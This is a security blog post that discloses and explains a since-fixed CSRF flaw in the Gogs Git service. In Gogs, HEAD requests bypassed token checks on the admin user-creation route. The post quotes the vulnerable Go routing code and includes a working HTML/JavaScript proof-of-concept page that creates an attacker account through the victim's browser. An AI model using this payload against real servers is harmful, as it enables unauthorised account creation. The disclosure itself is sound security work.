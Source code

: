 ```yaml
---
date: 2014-07-01 04:15:48 GMT
slug: csrf-in-gogs-via-head
tags: Go,csrf
title: CSRF in Gogs via HEAD
author: Tom Steele
type: text
---
```


I'm a big fan of [Go](http://golang.org/), so I'm always on the look out for emerging projects within the community. One such project is [Gogs](http://gogs.io/), an open source self-hosted Git service. This is a pretty ambitious effort, and  definitely a project to watch. While looking over some of the code I identified a [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) ("CSRF") vulnerability that presented itself in a not so common manner.

CSRF is a technique that exploits a server's inherit trust in the user's browser. In practice an attacker will host a malicious site and submit requests on behalf of the user. There are [many techniques](https://community.rapid7.com/community/metasploit/blog/2014/04/15/exploiting-csrf-without-javascript) to do this, far too many to discuss here, but the results can be [devastating](http://disconnected.io/2014/03/18/how-i-hacked-your-router/).

Preventing CSRF is fairly straight forward, one common way is to use a double-submit token. Where a random value is stored in the user's session or a separate cookie, and when a request to change a resource is submitted, it is compared to a form value or header. This is the method used by Gogs. Code for token generation and extraction is [here](https://github.com/gogits/gogs/blob/99713e1180ad149faf6442bba311fec6e501aa00/modules/middleware/context.go#L245-L270). And we can see [here](https://github.com/gogits/gogs/blob/e323604d781268a39febced13a2fb6caae2d126c/modules/middleware/auth.go#L37-L40) that all POST requests must have a valid token, or a 403 is returned.

This is valid because applications should not change state via the GET method, and other methods including DELETE, PUT, PATCH, etc. will be "preflighted" using the OPTIONS method to determine if the request if safe to send. A great resource for the wonder that is CORS rules is available [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS). As an aside, beware of only protecting POST routes, because [sometimes](http://blog.nodesecurity.io/post/60555138201/bypass-connect-csrf-protection-by-abusing) it's not enough. OK, now that were all experts, on with the vulnerability.

Gogs uses [Martini](https://github.com/go-martini/martini), which supports Sinatra like routing. We can see routes for managing users below.

~~~~~go
// Taken form https://github.com/gogits/gogs/blob/45462662e9bdb001f1cf3d4ca0e4d679757c7642/web.go

m.Group("/admin/users", func(r martini.Router) {
    r.Any("/new", bindIgnErr(auth.RegisterForm{}), admin.NewUser)
    r.Any("/:userid", bindIgnErr(auth.AdminEditUserForm{}), admin.EditUser)
    r.Any("/:userid/delete", admin.DeleteUser)
}, adminReq)
~~~~~

We see that `r` is the router variable and is using the `Any` method to setup routing. `Any` works how you probably expect, it accepts any method. Let's focus on the `"/new"` route, which is used to create a new user.

~~~~~go
// Taken from https://github.com/gogits/gogs/blob/d0e6a4c25acc3414f6d0f93cc50e6dcb41111c19/routers/admin/user.go

func NewUser(ctx *middleware.Context, form auth.RegisterForm) {
    ctx.Data["Title"] = "New Account"
    ctx.Data["PageIsUsers"] = true

    if ctx.Req.Method == "GET" {
        ctx.HTML(200, "admin/users/new")
        return
    }

    if form.Password != form.RetypePasswd {
        ctx.Data["HasError"] = true
        ctx.Data["Err_Password"] = true
        ctx.Data["Err_RetypePasswd"] = true
        ctx.Data["ErrorMsg"] = "Password and re-type password are not same"
        auth.AssignForm(form, ctx.Data)
    }

    if ctx.HasError() {
        ctx.HTML(200, "admin/users/new")
        return
    }

    u := &models.User{
        Name:     form.UserName,
        Email:    form.Email,
        Passwd:   form.Password,
        IsActive: true,
    }

    var err error
    if u, err = models.RegisterUser(u); err != nil {
        switch err {
        case models.ErrUserAlreadyExist:
            ctx.RenderWithErr("Username has been already taken", "admin/users/new", &form)
        case models.ErrEmailAlreadyUsed:
            ctx.RenderWithErr("E-mail address has been already used", "admin/users/new", &form)
        case models.ErrUserNameIllegal:
            ctx.RenderWithErr(models.ErrRepoNameIllegal.Error(), "admin/users/new", &form)
        default:
            ctx.Handle(200, "admin.user.NewUser", err)
        }
        return
    }

    log.Trace("%s User created by admin(%s): %s", ctx.Req.RequestURI,
        ctx.User.LowerName, strings.ToLower(form.UserName))

    ctx.Redirect("/admin/users")
}
~~~~~

We see that if the method is GET, then it returns and renders the template containing a form to create a new user, and if not, it creates the user. We saw earlier that POST's are protected, and other methods will be preflighted, but if you're following closely, and familiar with your CORS rules, you'll note that we didn't mention the HEAD method, which is not preflighted and does not require a token. Combine that with the behavior of the form parsing library, which treats query strings the same a payload and you have yourself CSRF.

An attacker can host the following to create a new user.

~~~~~html
<html>
    <head>
    <script>
      var http = new XMLHttpRequest();
      http.open('HEAD', 'http://your.git.computer/admin/users/new?username=badguy&email=badguy@evil.com&passwd=foobar&retypepasswd=foobar');
      http.withCredentials = true;
      http.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      http.send();
    </script>
    </head>
    <body>
Hi
    </body>
</html>
~~~~~

The Gogs' development team was extremely responsive and fixed this within a day. To do this, they setup explicit routes and handlers for GET and POST methods, and removed all use of `ANY`. Not being explicit in what you're allowing from a user is the root of many vulnerabilities, and that is the lesson here, where possible only support what you're expecting and strictly validate all input.
